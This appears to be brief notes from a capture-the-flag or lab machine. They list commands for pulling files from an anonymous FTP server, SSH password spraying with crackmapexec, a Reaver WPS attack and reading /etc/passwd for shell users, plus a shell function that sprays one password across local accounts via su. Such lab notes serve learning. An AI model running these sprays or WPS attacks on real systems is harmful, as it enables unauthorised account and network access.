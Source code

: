 Download all from anonymous ftp server:
```shell
wget -r ftp://10.10.11.247
```

Found the password in the tar file.

Check the pdf's with `exiftool`
```shell
cme ssh 10.10.11.247 -u users.txt -p 'password'
```

Scan for networks:
```shell
iwlist scan
```

Found Reaver with linpeas.sh
```shell
reaver -i mon0 -b [MAC] -vv
```

---
# Additional notes
#shell #scripting
Print all users that have shell:
```shell
cat /etc/passwd | grep sh$ | awk -F: '{print $1}'
# option 2:
awk -F: '{if ($NF ~ /sh$/) print $1}' /etc/passwd
```

#shell #spraying
Script for spraying users in function (can be pasted into a terminal and not touch a disk):
```shell
do_spray() {
	users=$(awk -F: '{if ($NF ~ /sh$/) print $1}' /etc/passwd)
	for user in $users; do
		echo "$1" | timeout 2 su $user -c whoami 2>/dev/null
		if [[ $? -eq 0 ]]; then
			return
		fi
	done
}
```

To kill a process
```shell
ps -ef | grep spray
kill -9 [PID]
```


